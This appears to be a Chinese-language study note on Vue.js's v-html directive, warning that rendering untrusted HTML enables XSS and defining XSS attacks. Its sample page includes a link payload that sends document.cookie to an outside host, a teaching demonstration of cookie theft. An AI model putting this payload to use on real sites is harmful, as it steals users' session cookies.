 ![image-20220713115316688](https://raw.githubusercontent.com/Thea-wyj/pic/main/img/image-20220713115316688.png)

工作流程：

![image-20220713115420419](https://raw.githubusercontent.com/Thea-wyj/pic/main/img/image-20220713115420419.png)

不允许跨浏览器使用

![image-20220713115446335](https://raw.githubusercontent.com/Thea-wyj/pic/main/img/image-20220713115446335.png)

> 1.作用：向指定节点中渲染包含html结构的内容。
> 2.与插值语法的区别：
> 	(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
> 	(2).v-html可以识别html结构。
> 3.严重注意：v-html有安全性问题！！！！
> 	(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
> 	(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
>
> **XSS攻击**：XSS攻击通常指的是通过利用[网页](https://baike.baidu.com/item/网页/99347)开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括[Java](https://baike.baidu.com/item/Java/85979)、 [VBScript](https://baike.baidu.com/item/VBScript/473081)、[ActiveX](https://baike.baidu.com/item/ActiveX/529325)、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```
